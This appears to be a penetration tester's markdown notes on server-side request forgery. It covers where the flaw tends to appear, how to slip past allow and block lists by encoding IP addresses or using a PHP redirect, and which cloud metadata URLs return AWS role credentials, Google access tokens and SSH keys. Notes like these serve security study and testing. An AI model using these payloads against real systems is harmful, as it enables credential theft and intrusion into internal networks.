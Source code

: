 # SSRF
=====

  ## WHERE

    ### File Upload	(SVGs, JPGs, XMLs and JSONs)
	
      #### SVGs : 

- Proxies
- Admin Configuration
- Webhooks
- URLs embedded in files that are processed by the application
- Hidden API endpoints that accept URLs as input
- HTML tag injections

  ## BYPASS

- Whitelist :
	
	* Open redirect
	* @ , # , / , . 
	* Encoding ?

- Blacklist
	
	* Encoding
		Hex : 127.0.0.1 translates to 0x7f.0x0.0x0.0x1
		Octal : 127.0.0.1 translates to 0177.0.0.01
		DWord : 127.0.0.1 translates to 2130706433
		URL Encoding : localhost translates to %6c%6f%63%61%6c%68%6f%73%74
		Mixed : 127.0.0.1 translates to 0177.0.0.0x1

	* Ip V6
	* DNS 
	* Redirect ( <?php header(“location: http://127.0.0.1"); ?> ) / TinyUrl 

-------------% EXPLOIT $-------------

- localhost

- Collect instance metadata : EC2 ? Equivalent google ? 
	
	AWS

		* http://169.254.169.254/latest/meta-data/ returns the list of available metadata that you can query.

		* http://169.254.169.254/latest/meta-data/local-hostname/ returns the internal hostname used by the host.

		* http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME returns the security credentials of that role.

		* http://169.254.169.254/latest/dynamic/instance-identity/document reveals the private IP address of the current instance.

		* http://169.254.169.254/latest/user-data/ returns user data on the current instance. 

	GOOGLE

		* http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token returns the access token of the default account on the instance.
		
		* http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-key returns public SSH keys that can connect to other instances in this project.

- fingerprinting : 
	
	* internally : port scanning, other services on internal ip ? 

		. Internal adress : https://en.wikipedia.org/wiki/Reserved_IP_addresses
		. 127.0.0.0/8
		. 192.168.0.0/16
		. 10.0.0.0/8

	* externally : user agent in dns/http request

-  Bypass access controls

- 

- RCE ???

-------------% LINKS $-------------

- SSRF Bible : https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit#heading=h.kwcnj7jh5zyy

- Vickie Li : https://medium.com/@vickieli/sitemap-xml-6ecc3b14b4f

- Internal adress : https://en.wikipedia.org/wiki/Reserved_IP_addresses

- Common ports : https://packetlife.net/media/library/23/common-ports.pdf

